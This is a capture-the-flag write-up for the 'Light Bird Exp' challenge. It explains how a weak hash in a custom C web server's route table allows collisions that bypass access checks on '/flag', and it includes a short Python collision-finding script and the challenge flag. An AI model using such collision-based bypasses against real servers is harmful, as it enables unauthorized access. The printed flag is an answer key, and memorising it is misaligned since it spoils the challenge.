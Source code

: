 # Light Bird Exp

## Description
This challenge is based on a C web server created by the author, it is a simple and evidently insecure version of route management.

## Solution
In this case a hash table is used to match the routes to the resources, however in the event of a collision the value is moved, therefore with a bad hash function like the one present in the program and for an inefficient width the risk of collision is very high , by exploiting a minor error in the control function it is possible to direct the search function to any resource, evading the controls.

```python

def hash( key:str, mod:int ) -> int:
    hash_value = 0
    for c in key:
        hash_value = (hash_value * 31 + ord(c)) % 4294967296
    return hash_value % mod


pointer = hash( '/flag', 256 )

for i in range( 1000 ):
    if pointer + 1 == hash( f'/flag{i}', 256 ):
        print(f'/flag{i}')
        break

```
## Flag
`CodeVinciCTF{Th15_1s_mY_n3w_r3411y_f4s7_4nd_3ff1c13N7_c_S3rv3r}`

## Author
`sDibuon`


